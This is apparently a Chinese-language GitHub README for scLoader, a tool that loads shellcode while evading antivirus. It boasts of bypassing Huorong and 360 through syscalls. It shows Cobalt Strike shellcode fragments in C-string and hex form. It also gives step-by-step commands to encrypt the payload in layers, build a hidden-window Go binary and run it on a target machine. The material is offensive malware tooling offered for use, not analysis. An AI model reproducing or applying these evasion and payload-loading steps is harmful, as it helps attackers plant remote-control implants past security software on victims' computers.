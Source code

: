 # scLoader: shellcode 加载器

## 效果
目前测试动态可以过火绒和360，静态VT检查效果一般

## 特点
- 基于Syscall进行免杀shellcode加载
- 加密方式可以自己选择

## 支持shellcode格式
目前支持CS中C语言格式和Raw格式的shellcode

**C语言字符串格式shellcode**
```
\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48
```

**纯十六进制格式的shellcodes**
```
fc48 83e4 f0e8 c800 0000 4151 4150 5251
5648 31d2 6548 8b52 6048 8b52 1848 8b52
2048 8b72 5048 0fb7 4a4a 4d31 c948 31c0
ac3c 617c 022c 2041 c1c9 0d41 01c1 e2ed
```

## 使用

1、使用sparrow.exe加密shellcode
将CS生成的.bin文件或.c文件放在sparrow.exe同一目录，使用命令

```
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.bin 
```
***注意：-e参数必须使用base64编码结尾***

2、将加密的shellcode复制到loader.go中的shellcode参数

3、按照加密顺序调整loader.go中的解密顺序，如这里base64,3des,aes,rc4,des

4、编译loader.go文件
```
go build -trimpath -ldflags="-w -s -H=windowsgui" loader.go
```

5、上传到目标机器，使用`loader.exe -fuck`命令加载shellcode


